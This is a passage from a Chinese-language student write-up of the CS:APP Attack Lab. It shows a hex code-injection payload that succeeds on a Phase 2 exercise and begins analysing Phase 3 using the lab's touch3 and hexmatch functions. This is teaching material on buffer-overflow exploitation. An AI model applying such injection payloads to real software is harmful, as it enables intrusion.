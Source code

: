```bash
48 c7 c7 fa 97 b9 59 68 
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

![](./assets/image-20220304233752252.png)

**攻击成功！**

## Phase 3

### 分析

本题与上题类似，不同点在于传的参数是一个字符串。先给出`touch3`的C语言代码

```c
void touch3(char *sval)
{
	vlevel = 3; /* Part of validation protocol */
	if (hexmatch(cookie, sval)) {
		printf("Touch3!: You called touch3(\"%s\")\n", sval);
		validate(3);
	} else {
		printf("Misfire: You called touch3(\"%s\")\n", sval);
		fail(3);
	}
	exit(0);
}
```

`touch3`中调用了`hexmatch`，它的C语言代码为：

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
	char cbuf[110];
    /* Make position of check string unpredictable */
	char *s = cbuf + random() % 100;
	sprintf(s, "%.8x", val);
	return strncmp(sval, s, 9) == 0;
}
```
